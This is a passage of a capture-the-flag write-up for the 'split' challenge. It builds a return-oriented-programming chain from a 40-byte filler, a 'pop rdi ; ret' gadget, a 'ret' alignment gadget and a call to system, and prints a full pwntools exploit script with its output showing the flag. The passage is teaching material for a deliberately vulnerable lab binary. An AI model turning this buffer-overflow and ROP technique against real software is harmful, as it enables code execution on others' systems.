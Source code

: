 Perfect! We found a gadget which pops a value from the stack into the RDI register. We also note the address of the `ret` gadget, which we will need to solve the MOVAPS issue. 

All in all, To create the exploit we will need:

- 40 bytes of filler
- the address of the `pop rdi ; ret` gadget
- the address of `/bin/cat flag.txt`
- the address of the `ret` gadget
- the address of the `system` function

```python
from pwn import *

# Initialize the ELF
elf = ELF('split')

# Start a new process using the binary file
process = process(elf.path)

# Create the payload with the 40 bytes of filler
payload = b'A' * 40

# Add the address of the "pop rdi ; ret" gadget
payload += p64(0x4007c3)

# Add the address of the "/bin/cat flag.txt" string
payload += p64(0x601060)

# Add the address of the "ret" gadget
payload += p64(0x40053e)

# We can use the pwntools elf utilities to get the address of the system function, which we will then add to the payload
payload += p64(elf.symbols["system"])

# Send the payload to the process
process.send(payload)

# Receive the output and decode it from bytes to string
output = process.recvall()
output = output.decode('utf-8')

# Find the index of the flag in the output
index = output.find('ROPE{')

# Print the flag
flag = output[index:]
print(flag)
```

Running the exploit...

```
$ python3 exploit_split.py      

[*] '/home/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './split': pid 145756
[+] Receiving all data: Done (108B)
[*] Stopped process './split' (pid 145756)
[+] b'ROPE{geet_dunked_on}'
```